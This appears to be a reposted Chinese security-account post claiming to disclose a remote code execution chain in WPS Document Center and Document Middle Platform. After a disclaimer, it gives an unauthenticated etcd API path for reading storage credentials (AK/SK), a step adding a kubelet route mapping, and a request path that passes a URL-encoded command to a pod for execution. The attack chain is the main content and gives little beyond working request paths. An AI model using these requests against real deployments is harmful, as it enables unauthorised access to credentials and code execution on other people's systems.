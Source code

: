 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkxNzY5MTg1Ng==&mid=2247490037&idx=1&sn=cb9766e7c28a24dbd93e399d36d87709

#  细节已披露：WPS文档中心和文档中台存在远程代码执行 RCE  
棉花糖糖糖  富贵安全   2025-07-18 00:23  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/1mtwZURvGTkCK3ZFyqYEyTwmaLo2YSMeibz3eeShkewiadS4oh0RBl1U7BTVeEscGQrEbjWKcQzGpJEFLwr4cFQw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
![]( "")  
  
  
以下为互联网收集  
攻击链信息，本公众号不为信息真实性担保，  
自行验证真伪，请勿使用本文内容进行违法行为，使用本文内容进行非法渗透测试的一切责任由使用者承担。  
  
  
1.未授权访问  

```
/open/v6/api/etcd/operate?key=/config/storage&method=get
```

  
2.获取AKSK后使用脚本添加kubelet 路由映射（需获取TOKEN）  
  
3.向对应POD发起通信  
后实现RCE  

```
/open/wps/run/{namespace}/{podname}/node-exporter?cmd={url_encode_command} 
```

  
